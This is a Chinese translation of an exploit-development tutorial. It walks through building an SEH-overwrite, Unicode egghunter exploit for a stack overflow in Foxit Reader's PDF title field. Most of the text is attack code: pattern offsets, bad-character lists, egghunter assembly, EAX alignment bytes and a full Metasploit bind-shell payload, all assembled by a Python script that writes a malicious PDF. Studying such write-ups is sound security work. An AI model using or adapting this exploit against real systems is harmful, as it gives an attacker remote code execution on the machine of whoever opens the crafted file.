# Foxit 阅读器栈缓冲区溢出 egghunter 方法

> 原文：[`www.pediy.com/kssd/pediy12/131568.html`](https://www.pediy.com/kssd/pediy12/131568.html)

【原文】http://www.exploit-db.com/foxit-reader-stack-overflow-exploit-egghunter/

在以前，Adobe Reader 的 0day 可以说是遍地都是，自然地 Foix Reader 便被认为是比 Adobe 更为安全的选择。虽然那意味着 Foxit 的可利用的漏洞不如 Adobe 多，但是这并不等同于完全没有。

带着探究的目的，笔者就用 Microsoft SDL MiniFuzz 进行了一些模糊测试。让程序读取了很多文件，当然许多都是黑帽上的白皮纸文件，然后开始不断地测试它。经过几个小时的测试，笔者惊喜的发现了一些崩溃现象，其中有一个崩溃能够导致 SEH 被覆写。

图 1

而下一步，就需要定位出是什么引起了这次崩溃，因此笔者用一个文本编辑器打开了这个 pdf 文件。如图

图 2 

由此可以了解到，首先，SHE 被 `0x00E700E7`（译者注：Unicode 会在字节前面自动加 00）覆写，由此可知这是一个 Unicode 利用程序；其次，程序的崩溃是因为 Foxit 在清理读入的标题标签的时候的失败导致的。笔者接下来的任务就是定位出来是在字符串的哪里发生了覆写，因此笔者用 Metasploit 随机生成了 10000 个字符，然后将它们粘贴进 pdf 文件中。

代码:

```
# ./pattern_create.rb 10000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab
```

用 Foxit 打开这个 pdf 文件后，发现 SEH 被笔者特意构造的字符给覆写了。

图 3 

看到图中字符串‘r9As’，因此能够定位出 SEH 的覆写位置。

代码:

```
# ./pattern_offset.rb r9As 10000
   538
```

经过上面的实验后，笔者尽量的去除那些没有用的数据，写了一段小 python 脚本来使这个工作更简单，当然脚本包括了 nSEH 和 SEh 被覆写的地方。

代码:

```
#!/usr/bin/python
preamble = "\x25\x50\x44\x46\x2D\x31\x2E\x34\x0A\x25\xE2\xE3\xCF\xD3\x0A\x38\x31\x20...
...\x30\x30\x27\x29\x2F\x54\x69\x74\x6C\x65\x28\x50\x61"
 
lead = "\x41" * 538  
nseh = "\x42\x42"
seh = "\x43\x43"
trailer = "\x44" * 9384
trailer += "\xE7\xE7"
trailer += "dookie was here: breaking your pdf reader application"
trailer += "\x29\x3E\x3E\x0A\x65\x6E\x64\x6F\x62\x6A"
 
sploit = preamble + lead + nseh + seh + trailer
filename = "foxit_title.pdf"
evil = open(filename, 'w')
evil.write(sploit)
evil.close
```

生成这个恶意 pdf 文件后用 Foxit 打开它。果然出现了一个完全可控的 SEH 链崩溃。

图 4

找到了可控 SEH 后，接下来就是去寻找一个 Unicode 友好型 pop-pop-retn 指令序列。因为 Foxit 主体二进制没有用 SafeSEH 保护，因此笔者决定先看那里。笔者在 `0x004D002F` 处找到一个候选序列，因此直接把它加进了自己的脚本。当然也需要找到一些 Unicode 字符来放入 nSEH 以便使其在执行时能够步过 SEH 地址而不会对笔者的脚本造成伤害或者任何的编辑行为。

代码:

```
...
lead = "\x41" * 538
nseh = "\x41\x6d" # Walk over SEH
seh = "\x2F\x4D"  # p/p/r from app binary
...
```

用 Foxit 载入新的 pdf 文件后，笔者在 SEH 处设置了一个断点并且步过这个异常两次以便到达笔者的 p/p/r 地址。

图 5

然后单步走过 p/p/r 指令进入 nSEH 直接走过了 SEH 的覆写。

图 6

到了这一点后，每一件事都指示着这将会是一个很好的“vanilla” Unicode exploit。笔者需要做就是加一些宽字符 shellcode 进入堆栈。增加一些字符给 EAX。笔者发现如下是坏字符序列：

代码:

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x7f\x9f\xad
```

因为字符 `\x05` 是坏的，那就意味着不能够像预想的那样进行 ADD EAX 操作。同时对于可利用的空间笔者也感到很不乐观，因为 Unicode shellcode 需要很多的空间。笔者打算查找一下内存空间是不是有别的缓冲区可以存放笔者的代码。

图 7

幸运的很，笔者找到了一个超过 9000 字节的可用来写入 shellcode 的空间，虽然看上去存满了字母，却留下了很大的可利用空间。基于这种情况，就可以使用 egghunter 的方法了。收集到这些信息后，笔者的策略安排如下：

1、生成一个数字与字母组成的 bind shellcode
2、放置 egg 和 shellcode 在笔者们的缓冲区里
3、生成 Unicode egghunter shellcode
4、调整 EAX 的值使其指向 egghunter shellcode 的开始。

前两步是最简单的，利用 Metasploit 来生成一些字母 shellcode 同时用 EAX 作为基本寄存器，笔者是添加了”w00tw00t“作为笔者的 egg 标记。

代码:

```
# /msf3/msfpayload windows/shell_bind_tcp R | /msf3/msfencode BufferRegister=EAX -e x86/alpha_upper -t c[*] x86/alpha_upper succeeded with size 745 (iteration=1)
unsigned char buf[] =
"\x50\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x51\x5a\x56"
"\x54\x58\x33\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30"
"\x41\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42"
...
```

接下来的任务就是生成兼容宽字符的 egghunter shellcode，有个问题是必须注意到的，当 egghunter 成功定位到 egg 后，它会跳转到指向 shellcode 的 EDI 寄存器。因为最终的 shellcode 是字母，也需要一个 EAX 来指向它，以便于解密。因此需要编辑 egghunter 来包含一个 MOV EAX，EDI 指令来放在 EDI 之前新 egghunter 如下：

代码:

```
OR DX,0FFF
INC EDX
PUSH EDX
PUSH 2
POP EAX
INT 2E
CMP AL,5
POP EDX
JE SHORT
MOV EAX,74303077
MOV EDI,EDX
SCAS DWORD PTR ES:[EDI]
JNZ SHORT
SCAS DWORD PTR ES:[EDI]
JNZ SHORT
MOV EAX,EDI
JMP EDI
```

现在需要把新的 egghunter 编码为 Unicode 格式。shellcode 被汇编后笔者们仅需要使用语句 ALPHA3 encoder。egghunter 形式变为如下

图 8

把编码过的 shellcode 加到 exploit 然后调整了下代码长度。代码如下：

代码:


```python
#!/usr/bin/python

preamble  = "\\x25\\x50\\x44\\x46\\x2D\\x31\\x2E\\x34\\x0A\\x25...
...x30\\x37\\x27\\x30\\x30\\x27\\x29\\x2F\\x54\\x69\\x74\\x6C\\x65\\x28\\x50\\x61"

# 202 byte unicode egghunter - EAX base register
egghunter = ("PPYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAI"
"AJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JB1V3Q7ZKOLO"
"0B0R1ZKR0X8MNNOLKU0Z2TJO6X2W00002T4KJZ6O2U9Z6O2U9W4K7WKO9WKPA")

# Bindshell - Does not need to be Unicode friendly as it is untouched in memory - 745 bytes
bindshell = ("\\x50\\x59\\x49\\x49\\x49\\x49\\x49\\x49\\x49\\x49\\x49\\x49\\x51\\x5a\\x56"
"\\x54\\x58\\x33\\x30\\x56\\x58\\x34\\x41\\x50\\x30\\x41\\x33\\x48\\x48\\x30"
"\\x41\\x30\\x30\\x41\\x42\\x41\\x41\\x42\\x54\\x41\\x41\\x51\\x32\\x41\\x42"
"\\x32\\x42\\x42\\x30\\x42\\x42\\x58\\x50\\x38\\x41\\x43\\x4a\\x4a\\x49\\x4b"
"\\x4c\\x4b\\x58\\x4b\\x39\\x45\\x50\\x45\\x50\\x45\\x50\\x43\\x50\\x4c\\x49"
"\\x4a\\x45\\x46\\x51\\x4e\\x32\\x45\\x34\\x4c\\x4b\\x51\\x42\\x46\\x50\\x4c"
"\\x4b\\x46\\x32\\x44\\x4c\\x4c\\x4b\\x50\\x52\\x42\\x34\\x4c\\x4b\\x42\\x52"
"\\x47\\x58\\x44\\x4f\\x4e\\x57\\x50\\x4a\\x46\\x46\\x46\\x51\\x4b\\x4f\\x50"
"\\x31\\x4f\\x30\\x4e\\x4c\\x47\\x4c\\x45\\x31\\x43\\x4c\\x44\\x42\\x46\\x4c"
"\\x51\\x30\\x49\\x51\\x48\\x4f\\x44\\x4d\\x45\\x51\\x49\\x57\\x4b\\x52\\x4a"
"\\x50\\x50\\x52\\x50\\x57\\x4c\\x4b\\x50\\x52\\x44\\x50\\x4c\\x4b\\x50\\x42"
"\\x47\\x4c\\x45\\x51\\x4e\\x30\\x4c\\x4b\\x51\\x50\\x42\\x58\\x4b\\x35\\x49"
"\\x50\\x43\\x44\\x50\\x4a\\x43\\x31\\x4e\\x30\\x46\\x30\\x4c\\x4b\\x47\\x38"
"\\x45\\x48\\x4c\\x4b\\x51\\x48\\x47\\x50\\x45\\x51\\x4e\\x33\\x4d\\x33\\x47"
"\\x4c\\x50\\x49\\x4c\\x4b\\x47\\x44\\x4c\\x4b\\x43\\x31\\x4e\\x36\\x50\\x31"
"\\x4b\\x4f\\x46\\x51\\x4f\\x30\\x4e\\x4c\\x4f\\x31\\x48\\x4f\\x44\\x4d\\x43"
"\\x31\\x49\\x57\\x50\\x38\\x4b\\x50\\x44\\x35\\x4c\\x34\\x44\\x43\\x43\\x4d"
"\\x4c\\x38\\x47\\x4b\\x43\\x4d\\x51\\x34\\x42\\x55\\x4a\\x42\\x51\\x48\\x4c"
"\\x4b\\x46\\x38\\x47\\x54\\x45\\x51\\x48\\x53\\x45\\x36\\x4c\\x4b\\x44\\x4c"
"\\x50\\x4b\\x4c\\x4b\\x51\\x48\\x45\\x4c\\x43\\x31\\x49\\x43\\x4c\\x4b\\x43"
"\\x34\\x4c\\x4b\\x43\\x31\\x4e\\x30\\x4c\\x49\\x47\\x34\\x51\\x34\\x47\\x54"
"\\x51\\x4b\\x51\\x4b\\x43\\x51\\x50\\x59\\x51\\x4a\\x46\\x31\\x4b\\x4f\\x4b"
"\\x50\\x51\\x48\\x51\\x4f\\x51\\x4a\\x4c\\x4b\\x42\\x32\\x4a\\x4b\\x4d\\x56"
"\\x51\\x4d\\x43\\x58\\x47\\x43\\x47\\x42\\x43\\x30\\x43\\x30\\x42\\x48\\x44"
"\\x37\\x44\\x33\\x50\\x32\\x51\\x4f\\x51\\x44\\x45\\x38\\x50\\x4c\\x43\\x47"
"\\x47\\x56\\x44\\x47\\x4b\\x4f\\x48\\x55\\x48\\x38\\x4c\\x50\\x43\\x31\\x45"
"\\x50\\x43\\x30\\x51\\x39\\x48\\x44\\x50\\x54\\x50\\x50\\x42\\x48\\x46\\x49"
"\\x4d\\x50\\x42\\x4b\\x45\\x50\\x4b\\x4f\\x4e\\x35\\x50\\x50\\x50\\x50\\x46"
"\\x30\\x46\\x30\\x51\\x50\\x50\\x50\\x47\\x30\\x50\\x50\\x43\\x58\\x4a\\x4a"
"\\x44\\x4f\\x49\\x4f\\x4b\\x50\\x4b\\x4f\\x49\\x45\\x4c\\x49\\x49\\x57\\x46"
"\\x51\\x49\\x4b\\x46\\x33\\x43\\x58\\x45\\x52\\x43\\x30\\x44\\x51\\x51\\x4c"
"\\x4c\\x49\\x4a\\x46\\x42\\x4a\\x44\\x50\\x50\\x56\\x46\\x37\\x45\\x38\\x4f"
"\\x32\\x49\\x4b\\x47\\x47\\x45\\x37\\x4b\\x4f\\x4e\\x35\\x51\\x43\\x46\\x37"
"\\x45\\x38\\x4f\\x47\\x4b\\x59\\x46\\x58\\x4b\\x4f\\x4b\\x4f\\x4e\\x35\\x50"
"\\x53\\x51\\x43\\x51\\x47\\x45\\x38\\x44\\x34\\x4a\\x4c\\x47\\x4b\\x4b\\x51"
"\\x4b\\x4f\\x48\\x55\\x51\\x47\\x4b\\x39\\x48\\x47\\x42\\x48\\x43\\x45\\x42"
"\\x4e\\x50\\x4d\\x43\\x51\\x4b\\x4f\\x49\\x45\\x42\\x48\\x43\\x53\\x42\\x4d"
"\\x42\\x44\\x45\\x50\\x4c\\x49\\x4d\\x33\\x50\\x57\\x50\\x57\\x46\\x37\\x50"
"\\x31\\x4a\\x56\\x42\\x4a\\x42\\x32\\x51\\x49\\x46\\x36\\x4a\\x42\\x4b\\x4d"
"\\x42\\x46\\x49\\x57\\x47\\x34\\x51\\x34\\x47\\x4c\\x45\\x51\\x43\\x31\\x4c"
"\\x4d\\x50\\x44\\x51\\x34\\x42\\x30\\x4f\\x36\\x43\\x30\\x47\\x34\\x50\\x54"
"\\x46\\x30\\x46\\x36\\x51\\x46\\x51\\x46\\x50\\x46\\x46\\x36\\x50\\x4e\\x51"
"\\x46\\x50\\x56\\x50\\x53\\x50\\x56\\x43\\x58\\x44\\x39\\x48\\x4c\\x47\\x4f"
"\\x4d\\x56\\x4b\\x4f\\x4e\\x35\\x4b\\x39\\x4b\\x50\\x50\\x4e\\x50\\x56\\x51"
"\\x56\\x4b\\x4f\\x46\\x50\\x45\\x38\\x45\\x58\\x4c\\x47\\x45\\x4d\\x45\\x30"
"\\x4b\\x4f\\x4e\\x35\\x4f\\x4b\\x4a\\x50\\x4e\\x55\\x4e\\x42\\x46\\x36\\x42"
"\\x48\\x49\\x36\\x4a\\x35\\x4f\\x4d\\x4d\\x4d\\x4b\\x4f\\x48\\x55\\x47\\x4c"
"\\x43\\x36\\x43\\x4c\\x45\\x5a\\x4d\\x50\\x4b\\x4b\\x4b\\x50\\x43\\x45\\x43"
"\\x35\\x4f\\x4b\\x47\\x37\\x44\\x53\\x42\\x52\\x42\\x4f\\x42\\x4a\\x45\\x50"
"\\x51\\x43\\x4b\\x4f\\x4e\\x35\\x44\\x4a\\x41\\x41")

lead  = "\\x41" * 538
nseh  = "\\x41\\x6d" # Walk over SEH
seh  = "\\x2F\\x4D"  # p/p/r from app binary
filler = "\\x41" * 130
egg = "w00tw00t"
trailer = "\\x44" * 8507
trailer += "\\xE7\\xE7"
trailer += "dookie was here: breaking your pdf reader application"
trailer += "\\x29\\x3E\\x3E\\x0A\\x65\\x6E\\x64\\x6F\\x62\\x6A"

sploit = preamble + lead + nseh + seh + filler + egghunter + filler + egg + bindshell + trailer
filename = "foxit_title.pdf"
evil = open(filename, 'w')
evil.write(sploit)
evil.close
```

在保证没有破坏任何超出可修复点的情况下，笔者加载了一个 pdf 文件并打开调试器以确定 Unicode `egghunter` 以及字母加密的 `bindshell` 在合适的位置。

图 9

最后的问题就是调整 `EAX` 寄存器，让它指向 Unicode-encoded `egghuntershellcode`。因为实际上它包含了许多坏掉的字符。仅凭笔者马虎的二进制数学，这将会花费很多的指令，但是因为笔者的一个朋友 devilboy，下面这些短小的序列就是在他的 Foxit exploit 用来指向 `EAX` 更接近笔者笔者们需要的地方

代码:
```
58          # POP EAX
6D          # Align
58          # POP EAX
6D          # Align
58          # POP EAX
6D          # Align 
35 00FF0020 # XOR EAX,2000FF00
6D          # Align
35 00F00020 # XOR EAX,2000F000
6D          # Align
50          # PUSH EAX
6D          # Align
C3          # RETN
6D          # Align
```

利用这些调整的序列，笔者需要增加 104 个字节的填充在调整代码和 `egghunter` 之间，这样 `EAX` 就可以指向解密指令的开始了。

图 10

每一个步骤都调整好了，剩下的就是确定 `egghunter` 可以精确地定位到笔者的 `bindshell` shellcode，因此笔者将 `egghunter` shellcode 解密然后在跳向 `EDI` 寄存器之前设置一个断点。然后进行调试。当程序停在断点处的时候 `EAX` 和 `EDI` 同时指向 Alpha shellcod 处，成功的找到了这个 egg。

图 11

万事俱备，现在是时候运行笔者们的 exploit 了。

图 12

最终的 exploit 结构如下：

`preamble` | `lead` | `nseh` | `seh` | `aligneax` | `filler` | `egghunter` | `filler` | `egg` | `bindshell` | `trailer`

笔者这篇 Foxit Reader Egghunter Exploit 仅仅是获取代码执行的多种方法之一。
